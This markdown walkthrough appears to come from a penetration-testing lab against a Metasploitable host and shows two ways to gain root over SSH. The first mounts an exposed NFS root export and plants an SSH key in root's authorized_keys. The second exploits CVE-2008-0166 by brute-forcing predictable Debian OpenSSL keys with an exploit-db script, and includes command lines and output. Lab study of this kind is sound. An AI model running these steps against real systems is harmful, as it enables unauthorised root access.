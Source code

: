 
## Port 22 | ssh (OpenSSH)

https://www.youtube.com/watch?v=OxwKjp8xm9c

### Attack Vector #1 

1. Generate a new SSH key on Kali
```
# ssh-keygen
```
2. Checking Network File System (NFS)

- Option 1: use Nmap script to identify NFS
```
# nmap --script=nfs-ls 192.168.50.7
# nmap --script=nfs-showmount 192.168.50.7
```
- Option 2: use `showmount` command to determine if the "/" share (the root of the file system) is being exported. May need to install nfs-common package to use "showmount" command
```
# apt-get install nfs-common
# showmount -e 192.168.50.7
```
3. Mount the NFS export
```
# mkdir /tmp/victim
# mount -t nfs 192.168.50.7:/ /tmp/victim/
```
4. Add Kali's SSH key to the root user account's authorized_keys file (on the victim machine)
```
# cat ~/.ssh/id_rsa.pub >> /tmp/victim/root/.ssh/authorized_keys
# umount /tmp/victim
```
OR we can also get authorized SSH keys from the victim machine using the following command
```
# cat /tmp/victim/root/.ssh/authorized_keys
```
5. Login to victim machine using Kali's SSH key
```
# ssh root@192.168.50.7

root@metasploitable:~# whoami
```
### Attack Vector #2 

CVE-2008-0166

OpenSSL 0.9.8c-1 up to versions before 0.9.8g-9 on Debian-based operating systems uses a random number generator that generates predictable numbers, which makes it easier for remote attackers to conduct brute force guessing attacks against cryptographic keys.

1. We need to download the pre-calculated vulnerable keys from the link below

https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/5622.tar.bz2

2. Extract the file
```
# cp ~/Downloads/5622.tar.bz2 ~
# tar xvjf 5622.tar.bz2
```
3. Create the following Python script

https://www.exploit-db.com/exploits/5720/
```
# nano brute_force_ssh.py
# chmod 755 brute_force_ssh.py 
```
4. Run the script as follows
```
# python brute_force_ssh.py ~/rsa/2048/ 192.168.50.7 root
```
The above script checks if the `root` account has a weak SSH key, testing each key in the directory where we placed the keys (~/rsa/2048/)

5. Result...(about 15' using my laptop)
```
[snip]
...
Tested 18334 keys | Remaining 14434 keys | Aprox. Speed 26/sec
Tested 18472 keys | Remaining 14296 keys | Aprox. Speed 27/sec
Tested 18623 keys | Remaining 14145 keys | Aprox. Speed 30/sec

Key Found in file: 57c3115d77c56390332dc5c49978627a-5429
...
[snip]
```
6. After finding out the key, we can use it to log in as `root` via ssh
```
# ssh -l root -p 22 -i /root/rsa/2048//57c3115d77c56390332dc5c49978627a-5429 192.168.50.7

root@metasploitable:~# whoami
```

